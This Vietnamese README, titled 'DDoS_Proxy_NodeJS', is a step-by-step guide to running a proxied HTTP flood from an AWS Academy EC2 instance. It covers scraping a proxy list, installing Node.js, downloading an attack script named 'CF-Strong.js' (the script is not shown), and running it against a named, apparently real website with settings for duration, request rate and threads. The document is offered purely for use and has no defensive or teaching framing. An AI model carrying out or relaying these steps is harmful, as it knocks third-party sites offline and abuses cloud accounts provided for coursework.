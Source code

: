 # DDoS_Proxy_NodeJS
https://awsacademy.instructure.com/courses/74031/modules/items/6643523

website lấy proxy http(tạo một tệp txt rồi copy hết tất cả trong trang web này)
https://api.proxyscrape.com/v2/?request=displayproxies&protocol=http&timeout=10000&country=all&ssl=all&anonymity=all

https://upload-vpn.vinahost.vn/ (website upload file len terminal remote tren website)
kéo thả file proxy và script chạy(đã gửi) lên trang web

Linux
-----------------------------------------------------------------
qua terminal bên ec2
copy lệnh dưới và dán vào:
sudo apt update -y
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt-get install nodejs -y

tiếp theo qua website upload copy link file mà bạn đã upload
lệnh upload trên terminal: curl -O link --insecure
vd: curl -O https://example.com/file.js --insecure
-----------------------------------------------------------------

sau khi upload đủ cả 2 file dùng: ls để kiểm tra xem đã có 2 file vừa upload chưa
dùng tiếp lệnh npm i colors
-> để cài đặt module cho script đuôi .js

lệnh chạy script
node file.js link thời_gian requests/proxy threads(luồng) proxy_file
vd: node CF-Strong.js http://www.thayphet.net/ 300 64 12 Proxy.txt

cách kiểm tra số luồng hiện có trên terminal: lscpu
kiếm dòng: Thread(s) per core:
